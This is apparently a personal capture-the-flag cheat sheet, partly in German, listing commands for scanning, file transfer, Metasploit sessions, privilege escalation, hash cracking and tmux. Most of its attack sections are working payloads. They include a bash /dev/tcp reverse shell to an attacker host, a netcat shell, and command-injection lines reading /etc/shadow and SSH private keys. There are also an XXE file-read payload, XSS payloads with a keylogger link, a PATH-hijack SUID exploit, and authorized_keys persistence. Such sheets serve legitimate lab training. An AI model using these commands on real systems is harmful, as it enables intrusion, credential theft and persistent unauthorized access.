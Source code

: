 # docs-ctf-cheatsheet
### NMAP:
nmap -sC -sV -oA nmap/initial IPADRESS (standart)
nmap -p- -T5 -sC -sV -oA nmap/second IPADRESS (quick scan of all ports)

-A : Enables OS Detection, Version Detection, Script Scanning and Traceroute all in one
-p- : Enables scanning across all ports, not just the top 1000
-sC : Scan with default NSE scripts. Considered useful for discovery and safe
-sV : Attempts to determine the version of the service running on port
-oA [dir] all output to [dir]

### NETCAT:
send data:
	reciever:
	nc -l -p 1234 > FILE.NAME       (sometimes netcat instead of nc!)
	sender:
	nc -w 3 DESTINATION 1234 < FILE.NAME

### MSF:
search
	search …
send data
	upload /path/to/file
run exploit in background and enter the session
run -j
sessions
	sessions -i [session id]
get "normal" shell
	shell
move out of a session
	ctrl+z

### HTTPSERVER:
send data:
	sender:
	python -m SimpleHTTPServer 8083
	reciever:
	curl IPADRESSSENDER:8083/FILE.NAME
	curl 10.10.14.145:8083/47502.py > hmm.py
	OR
	wget IPADRESSSENDER:8083/FILE.NAME

### REVERSE SHELL:
1. setup listener on my machine:
nc -lvnp 8081
2. go to
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
and try them out on target machine
easiest rs : ;nc -e /bin/bash

### INTERACTIVE SHELL:
target:
	export RHOST=<IPADRESSATTACKER>
attacker:
	nc -lp 14445
target:
	bash -c 'bash -i &>/dev/tcp/$RHOST/14445 0<&1'
attacker (now on targetshell):
	python -c 'import pty; pty.spawn("/bin/bash")'
	OR
	python3 -c 'import pty; pty.spawn("/bin/bash")'

### COMMAND INJECTION
Linux
whoami
id
ifconfig/ip addr
uname -a
ps -ef
cat /etc/passwd
cat /etc/shadow
cat /home/USERNAME/.ssh/id_rsa
Windows
whoami
ver
ipconfig
tasklist
netstat -an

### CHECK IF SOMETHING IS EXECUTED
attacker:
	sudo tcpdump ip proto \\icmp -i tun0
target:
	ping [local tun0 ip] -c 1

### BROKEN AUTHENTICATION:
password guessing/bruteforce
weak session cookies
reregistration of existing user “ admin” (with space) and gain all rights of “admin”
1. try register as randomname
2. if “randomname has already been taken” try register with “ randomname” and see what happens

### XML EXTERNAL ENTITY (XXE):
try :
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
and:
<!DOCTYPE replace [<!ENTITY name "success"> ]>
 <userInfo>
  <firstName>xxe</firstName>
  <lastName>&name;</lastName>
 </userInfo>

### XSS PAYLOADS:
Popup's (<script>alert(“Hello World”)</script>) - Creates a Hello World message popup on a users browser.
Writing HTML (document.write) - Override the website's HTML to add your own (essentially defacing the entire page).
XSS Keylogger (http://www.xss-payloads.com/payloads/scripts/simplekeylogger.js.html) - You can log all keystrokes of a user, capturing their password and other sensitive information they type into the webpage.
Port scanning (http://www.xss-payloads.com/payloads/scripts/portscanapi.js.html) - A mini local port scanner
test <img src=x onerror=alert(2)>


### POST EXPLOITATION WINDOWS:

Get-WmiObject -Class win32_OperatingSystem (Power Shell)
run post/windows/gather/checkvm (Metasploit) - check if vm
run post/multi/recon/local_exploit_suggester (Metasploit)
run post/windows/manage/enable_rdp (Metasploit)
ipconfig
try migrate spoolsv.exe
getuid
sysinfo
getprivs
run autoroute -s [SUBNET IP] -n 255.255.255.0



### Enummeration Scripts:
#### Local:
* LinEnum
* LinPEAS
* WinPEAS
#### Remote:
enum4linux [OPTIONS] [IP] - works for windows and linux SMB SAMBA


### SMBClient:
smbclient //[IP]/[DIRECTORY] -U [USERNAME]

### NFS:
sudo mount -t nfs [IP]:[tragetdirectory] /tmp/mount/ -nolock

### SUID:
find SUID : find / -perm -u=s -type f 2>/dev/null

Exploit /usr/bin/menu with SUID :
	cd /tmp
	echo /bin/sh > curl
	chmod 777 curl
	export PATH=/tmp:$PATH
	/usr/bin/menu


### DNS PROBLEM (for Hack The Box)
sudo nano /etc/hosts
add [IPADRESS] [DOMAIN], save and it should work!

### SSH:
ssh-keygen -f [NAME]
	now i can write the [NAME].pub file content (exept for the last part with my USER@IP
and add “ssh-rsa “ before the key if not there) to the
/home/[USER]/.ssh/authorized_keys/
then ssh -i [NAME] [USER]@[IP]

### PYTHON VIRTUAL ENVIRONMENT
	env init:
		python3 -m venv [NAME UMGEBUNG]
	env laden:
		source [NAME UMGEBUNG]/bin/activate
	packet installieren (in env):
		pip3 install [PACKET NAME]
	env exit:
		deactivate
	pip zeigt installierte packets:
		pip3 freeze

### JAVA-VERSION ARCH LINUX
some programs run only with a certain jre, so you can use the following to set the default jre on your system:
sudo archlinux-java set java-8-openjdk/jre

### TMUX:
	neue tmux session in gewünschter directory starten:
		tmux new -s [NAME]
	new  panel
CMD+B, c
rename panel
	CMD+B, ,
split panel vertical
	CMD+B, %
split panel horizontal
	CMD+B, “
navigate between panel
	CMD+B, pfeiltasten
resize panel
	CMD+B + pfeiltasten

### GOBUSTER
./gobuster dir -u http://ADRESS/ -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt
maybe mit +x php

### MYSQL
mysql -u [USER] -p'[PASSWORD]'

### HASHCAT (Windows)
.\hashcat.exe -a [ATTACKTYPE] -m [HASHTYPE] [PATHTOHASHES] [PATHTODICTIONARY] -r [PATHTORULE]
ATTACKTYPE : 0 for dictionary/dictionary-rule attack
HASHTYPE : tunnelsup.com/hash-analyzer/, hashcat.net/wiki/doku.php?id=example_hashes
PATHTORULE : \rules\best64.rule is good